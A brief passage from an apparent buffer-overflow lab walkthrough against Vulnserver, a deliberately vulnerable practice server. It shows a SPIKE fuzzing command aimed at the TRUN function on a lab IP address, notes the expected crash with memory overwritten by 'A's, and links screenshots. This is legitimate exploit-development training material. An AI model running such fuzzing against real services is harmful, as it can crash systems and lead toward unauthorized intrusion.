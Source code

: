 > Rerunning the spike script to target TRUN (assuming this is the vulnerable function of the program)

*vuln*
```shell
generic_send_tcp 172.16.10.101 9999 trun.spk 0 0
```

![kali_spike_trun](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/kali_spike_trun.png)

> Vulnserver should crash due to vulnerability and overwrite memory addresses with \x41 ("A's")

![windows_spike_trun](https://github.com/catx0rr/bufferoverflow/blob/master/vulnserver/img/windows_spike_trun.png)

